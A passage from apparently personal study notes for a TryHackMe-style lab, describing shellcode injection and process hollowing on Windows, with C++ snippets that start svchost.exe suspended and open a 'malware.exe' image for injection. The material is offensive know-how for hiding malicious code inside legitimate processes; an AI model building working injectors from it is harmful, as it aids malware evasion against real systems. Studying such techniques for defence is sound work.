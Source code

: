 ```cpp
	NULL
);
```
We can compile these steps together to create a basic process injector. Now we simply execute the program and give it a PID as an argument to inject our shellcode into.

# Process Hollowing
Similar to shellcode injection, this technique offers the ability to inject an entire malicious file into a process. This is accomplished by "hollowing" or un-mapping the process and injecting specific PE data and sections into the process.
At a high-level process hollowing can be broken up into
1. Create a target Process in a suspended state
2. Open a malicious image
3. Un-map legitimate code from process memory
4. Allocate memory locations for malicious code and write each section into the address space
5. Set an entry point for the malicious code
6. Take the target process out of a suspended state
![[Pasted image 20240814035254.png]]
At step one of process hollowing, we must create a target process in a suspended state using `CreateProcessA`. To obtain the required parameters for the [[Windows API|API]] call we can use the structures `STARTUPINFOA` and `PROCESS_INFORMATION`
```cpp
LPSTARTUPINFOA target_si = new STARTUPINFOA(); // Defines station, desktop, handles, and appearance of a process
LPPROCESS_INFORMATION target_pi = new PROCESS_INFORMATION(); // Information about the process and primary thread
CONTEXT c; // Context structure pointer

if (CreateProcessA(
	(LPSTR)"C:\\\\Windows\\\\System32\\\\svchost.exe", // Name of module to execute
	NULL,
	NULL,
	NULL,
	TRUE, // Handles are inherited from the calling process
	CREATE_SUSPENDED, // New process is suspended
	NULL,
	NULL,
	target_si, // pointer to startup info
	target_pi) == 0) { // pointer to process information
	cout << "[!] Failed to create Target process. Last Error: " << GetLastError();
	return 1;
```
In step two, we need to open a malicious image to inject. This process is split into three steps, starting by using `CreateFileA` to obtain a handle for the malicious image.

```cpp
HANDLE hMaliciousCode = CreateFileA(
	(LPCSTR)"C:\\\\Users\\\\tryhackme\\\\malware.exe", // Name of image to obtain
	GENERIC_READ, // Read-only access
	FILE_SHARE_READ, // Read-only share mode
	NULL,
	OPEN_EXISTING, // Instructed to open a file or device if it exists
	NULL,
	NULL
);
```
